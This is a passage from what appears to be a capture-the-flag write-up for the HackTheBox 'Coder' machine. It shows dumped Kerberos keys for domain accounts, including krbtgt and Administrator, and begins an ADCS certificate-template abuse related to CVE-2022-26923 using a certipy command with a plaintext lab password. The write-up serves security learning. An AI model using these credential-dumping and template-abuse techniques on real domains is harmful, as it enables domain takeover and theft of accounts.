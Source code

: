     Administrator:aes256-cts-hmac-sha1-96:86a6a038ff6058c56a74e2e35008f6b037b8e7bca8c75cc5ee4495f77d0be71e
    Administrator:aes128-cts-hmac-sha1-96:6d63b0853502cbbc8c8e40ad8fe88fa3
    Administrator:des-cbc-md5:37feabd9d9575785
    krbtgt:aes256-cts-hmac-sha1-96:aeb517a1efec8b79479cb1432e734555bc1039bcbd77bcdc39234b37199a70d3
    krbtgt:aes128-cts-hmac-sha1-96:2bab4af978e4cee0b58fa1d377d35981
    krbtgt:des-cbc-md5:100489b5839798cb
    coder.htb\e.black:aes256-cts-hmac-sha1-96:ccb6c47af9a05d91e7610fe396cd8ffcc0e51279a2eee253fab1fb40536a5a85
    coder.htb\e.black:aes128-cts-hmac-sha1-96:650ad0d49ab4bcff325a7f2a846d433f
    coder.htb\e.black:des-cbc-md5:89290da2c2cd16ec
    coder.htb\c.cage:aes256-cts-hmac-sha1-96:ea9cc2144c3106e9325b1ddda16c27c644d9f9b7e95098581ceba19c75d9b296
    coder.htb\c.cage:aes128-cts-hmac-sha1-96:2cff13848c9e8d07339a6ab41bf72088
    coder.htb\c.cage:des-cbc-md5:fd6d578510df1af1
    coder.htb\j.briggs:aes256-cts-hmac-sha1-96:ec3ac8b99094903a3ca006a725dc0867666347efb4baf04d8b2f8b0305ab65ee
    coder.htb\j.briggs:aes128-cts-hmac-sha1-96:39050d78545c40645fa889c13200f8f7
    coder.htb\j.briggs:des-cbc-md5:7f5286d35def8f15
    coder.htb\l.kang:aes256-cts-hmac-sha1-96:d7eb03d2695638c4ba423cd88e22dcdd7c0f6da996e5d6ed3af6c6d7e6c56661
    coder.htb\l.kang:aes128-cts-hmac-sha1-96:25ad8331aa0fa2b26e220040b9e55937
    coder.htb\l.kang:des-cbc-md5:571a573e61ced640
    coder.htb\s.blade:aes256-cts-hmac-sha1-96:ceeab374597121113f3bdee3aab1fed0522506909b2f1ec24dfe36045eb3c252
    coder.htb\s.blade:aes128-cts-hmac-sha1-96:69f4cada02748fba948e4c15460add9e
    coder.htb\s.blade:des-cbc-md5:26eca8ad9deaada2
    coder.htb\svc_teamcity:aes256-cts-hmac-sha1-96:b6c7ed72b4434a89c56295df6b42ca68937702dda15f90f23423e8712abce030
    coder.htb\svc_teamcity:aes128-cts-hmac-sha1-96:d6604e2fadb40bbf71708e7b9c9734a7
    coder.htb\svc_teamcity:des-cbc-md5:264ab5645ed91c86
    DC01$:aes256-cts-hmac-sha1-96:a43b686fdd5f2e576ad834c5b1d4327dd5bdbd3ec579677343a2c6c43c8f1740
    DC01$:aes128-cts-hmac-sha1-96:22192237a3cb399c19a6b469dcd1cba8
    DC01$:des-cbc-md5:cb9758c162ba4943
    [*] Cleaning up...


The most important one is the top one, Administrator.

### Exploit - Shortcut

#### Create Template

e.black has rights to create ADCS templates. Above I showed doing that
to upload a template misconfigured like what led to CVE-2022-26923. But
I can upload really any vulenable template.

I'll take a look at what [certipy](https://github.com/ly4k/Certipy)
shows about the same "Computer" template I modified above. I'll run it
to get all templates and save them to a file:



    oxdf@hacky$ certipy find -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -target coder.htb -text
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
